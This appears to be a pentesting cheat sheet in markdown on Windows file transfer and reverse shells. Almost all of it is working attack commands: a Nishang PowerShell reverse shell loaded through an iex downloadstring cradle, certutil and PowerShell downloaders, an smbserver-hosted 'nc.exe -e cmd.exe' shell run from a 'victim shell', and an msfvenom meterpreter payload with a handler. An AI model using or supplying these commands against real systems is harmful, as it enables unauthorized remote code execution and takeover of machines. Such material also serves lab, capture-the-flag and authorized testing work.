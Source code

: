 ### Windows

#### Nishang
- git clone [Nishang](https://github.com/samratashok/nishang)
- edit InvokePowerShellTcp.ps1 /nishang/Shells/
paste *Invoke-PowerShellTcp -Reverse -IPAddress [your_ip] -Port [your_port]* on bottom of the file.
- run python HTTP server
  -python -m SimpleHTTPServer 443
  -python3 -m http.server 443
-In the victim shell: 
  powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Powershell
powershell -ExecutionPolicy Bypass -File wget.ps1 http://[your_ip:port]/file file

echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1

```PowerShell file download
powershell iex(new-object System.net.webclient).downloadstring('http://[your_ip:port]/Invoke-PowerShellTcp.ps1')
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[your_ip:port]/wget.exe','C:\Destination\path\wget.exe')"

##### powershell wget http://[your_ip:port]
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### smbserver

- smbserver.py
```
git clone [impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
```
create directory (for example test)
```
cp nc.exe to your_file_directory_path
```
run smbserver
```
python smbserver.py test your_file_directory_path (example: python smbserver.py test /root/mysmbfile
```
run local nc
```
nc -lnvp 443
```
In the victim shell
```
\\[your_ip]\test\nc.exe -e cmd.exe [your_ip]
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### certutil
```
certutil -urlcache -f http://[your_ip]/file output_file_name
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------
#### Meterpreter
- create msfvenom payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[you_ip] LPORT=[your_port] -f asp > rs.asp

- use mstfconsole
exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost, lport and run

- execute reverse shell
curl http://10.10.10.5/rs.asp
